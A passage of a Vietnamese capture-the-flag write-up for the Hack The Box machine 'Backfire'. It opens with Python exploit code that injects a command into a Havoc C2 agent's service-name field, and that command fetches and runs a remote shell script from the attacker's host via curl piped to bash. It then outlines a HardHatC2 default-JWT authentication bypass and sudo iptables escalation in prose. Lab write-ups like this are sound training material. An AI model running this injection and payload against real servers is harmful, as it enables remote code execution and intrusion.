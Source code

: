 ```
payload = {"Body":{"Info":{"Headers":"","HostBind":"0.0.0.0","HostHeader":"","HostRotation":"round-robin","Hosts":"0.0.0.0","Name":"abc","PortBind":"443","PortConn":"443","Protocol":"Https","Proxy Enabled":"false","Secure":"true","Status":"online","Uris":"","UserAgent":"Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"},"SubEvent":1},"Head":{"Event":2,"OneTime":"","Time":"08:39:18","User": USER}}
write_socket(socket_id, frame_generator(json.dumps(payload)))

cmd = "curl -s http://10.10.14.42/test.sh | bash"
injection = """ \\\\\\\" -mbla; """ + cmd + """ 1>&2 && false #"""

payload = {"Body": {"Info": {"AgentType": "Demon", "Arch": "x64", "Config": "{\n    \"Amsi/Etw Patch\": \"None\",\n    \"Indirect Syscall\": false,\n    \"Injection\": {\n        \"Alloc\": \"Native/Syscall\",\n        \"Execute\": \"Native/Syscall\",\n        \"Spawn32\": \"C:\\\\Windows\\\\SysWOW64\\\\notepad.exe\",\n        \"Spawn64\": \"C:\\\\Windows\\\\System32\\\\notepad.exe\"\n    },\n    \"Jitter\": \"0\",\n    \"Proxy Loading\": \"None (LdrLoadDll)\",\n    \"Service Name\":\"" + injection + "\",\n    \"Sleep\": \"2\",\n    \"Sleep Jmp Gadget\": \"None\",\n    \"Sleep Technique\": \"WaitForSingleObjectEx\",\n    \"Stack Duplication\": false\n}\n", "Format": "Windows Service Exe", "Listener": "abc"}, "SubEvent": 2}, "Head": {
        "Event": 5, "OneTime": "true", "Time": "18:39:04", "User": USER}}

write_socket(socket_id, frame_generator(json.dumps(payload)))
```

Đoạn payload cuối thì mọi người có thể tự setup, phần mất thời gian nhất sẽ là việc ngồi code đoạn generate ra text frame cho payload, và xong rồi ta sẽ có user flag.

# Lateral movement
Ở user ilya, ta sẽ đọc được một file ở home directory và content như sau:
```
ilya@backfire:~$ cat hardhat.txt
cat hardhat.txt
Sergej said he installed HardHatC2 for testing and  not made any changes to the defaults
I hope he prefers Havoc bcoz I don't wanna learn another C2 framework, also Go > C#
```
Như có thể thấy là HardHatC2 chưa hề được động vào một chút nào và tất cả những gì liên quan đến nó đều là default settings, nếu như search google ta sẽ gặp ngay [bài viết này](https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7) và PoC cho đoạn Auth bypass sử dụng jwt secret key defaults. Đoạn này mình lười nên mọi người có thể tự làm tiếp.

Sau đó ta có access được vào HardhatC2 với user sergej, chạy lệnh *sudo -l* ta sẽ có được 2 binary là iptables, iptables-save là user sergej có thể chạy dưới quyền root nhưng mà đến đây mọi người cũng tự làm tiếp luôn vì mình chơi free nên giờ làm lại mệt lắm ;) hehe

# Conclusion
Box này khá là hay, đi xa khỏi lối mòn cũ của HTB và cực kì respect dành cho author

![image](https://github.com/user-attachments/assets/1ece5084-8373-4d80-b56d-19f1c589170f)

Reference:
https://github.com/chebuya/Havoc-C2-SSRF-poc/blob/main/exploit.py
https://github.com/IncludeSecurity/c2-vulnerabilities/blob/main/havoc_auth_rce/havoc_rce.py
https://blog.sth.sh/hardhatc2-0-days-rce-authn-bypass-96ba683d9dd7
https://www.shielder.com/blog/2024/09/a-journey-from-sudo-iptables-to-local-privilege-escalation/
https://noio-ws.readthedocs.io/en/latest/overview_of_websockets.html#:~:text=Frames%20are%20a%20header%20%2B%20application,frames%20and%20three%20control%20frames.
https://stackoverflow.com/questions/78505010/how-to-properly-frame-websocket-messages-in-python-socket-library
https://blog.chebuya.com/posts/server-side-request-forgery-on-havoc-c2/
